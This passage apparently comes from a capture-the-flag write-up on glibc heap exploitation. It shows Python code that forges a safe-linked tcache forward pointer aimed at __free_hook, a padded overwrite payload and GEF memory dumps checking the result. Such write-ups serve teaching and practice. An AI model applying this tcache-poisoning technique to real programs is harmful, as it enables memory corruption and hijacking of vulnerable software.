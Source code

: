 So we know the offset. Remember the new mechanism for the forward pointer and we can fake the forward pointer to malloc `__free_hook` with the payload below:

```py
# The chunk we overwrite forward pointer has address at "heap + 0xb40"
fake_fw_pointer = ((heap + 0xb40) >> 12) ^ (libc.sym['__free_hook'])
```

So that we fake the previous chunk into `__free_hook` and write it with the chunk from unsorted bin. We will malloc a chunk with size of 0x130 for overwriting:

```py
payload = b'\x00'*0x100                 # Padding to tcache
payload += flat(0, 0x111)               # Prev_size and size of tcache
payload += flat(fake_fw_pointer)        # Overwrite forward pointer
add(10, 0x130, payload)
```

And let’s check if our forward pointer is correct or not (Address changed):

```
gef➤  x/50xg 0x0000000000caca20
0xcaca20:   0x0000000000000000  0x0000000000000141
0xcaca30:   0x00007f43934d0e10  0x00007f43934d0e10    <-- New chunk from unsorted bin
0xcaca40:   0x0000000000000000  0x0000000000000000
0xcaca50:   0x0000000000000000  0x0000000000000000
0xcaca60:   0x0000000000000000  0x0000000000000000
0xcaca70:   0x0000000000000000  0x0000000000000000
0xcaca80:   0x0000000000000000  0x0000000000000000
0xcaca90:   0x0000000000000000  0x0000000000000000
0xcacaa0:   0x0000000000000000  0x0000000000000000
0xcacab0:   0x0000000000000000  0x0000000000000000
0xcacac0:   0x0000000000000000  0x0000000000000000
0xcacad0:   0x0000000000000000  0x0000000000000000
0xcacae0:   0x0000000000000000  0x0000000000000000
0xcacaf0:   0x0000000000000000  0x0000000000000000
0xcacb00:   0x0000000000000000  0x0000000000000000
0xcacb10:   0x0000000000000000  0x0000000000000000
0xcacb20:   0x0000000000000000  0x0000000000000000
0xcacb30:   0x0000000000000000  0x0000000000000111
0xcacb40:   0x0000000000cac4bc  0x0000000000cac010    <-- Tcache
0xcacb50:   0x0000000000000000  0x0000000000000000
0xcacb60:   0x0000000000000000  0x00000000000000e1
0xcacb70:   0x00007f43934d0c00  0x00007f43934d0c00    <-- Unsorted bin
0xcacb80:   0x0000000000000000  0x0000000000000000
0xcacb90:   0x0000000000000000  0x0000000000000000
0xcacba0:   0x0000000000000000  0x0000000000000000
```

It malloc successfully, let’s check if everything is on the right path or not:

```
gef➤  x/50xg 0x0000000000caca20
0xcaca20:   0x0000000000000000  0x0000000000000141
0xcaca30:   0x0000000000000000  0x0000000000000000    <-- New chunk from unsorted bin
0xcaca40:   0x0000000000000000  0x0000000000000000
0xcaca50:   0x0000000000000000  0x0000000000000000
0xcaca60:   0x0000000000000000  0x0000000000000000
0xcaca70:   0x0000000000000000  0x0000000000000000
0xcaca80:   0x0000000000000000  0x0000000000000000
0xcaca90:   0x0000000000000000  0x0000000000000000
0xcacaa0:   0x0000000000000000  0x0000000000000000
0xcacab0:   0x0000000000000000  0x0000000000000000
0xcacac0:   0x0000000000000000  0x0000000000000000
0xcacad0:   0x0000000000000000  0x0000000000000000
0xcacae0:   0x0000000000000000  0x0000000000000000
0xcacaf0:   0x0000000000000000  0x0000000000000000
0xcacb00:   0x0000000000000000  0x0000000000000000
```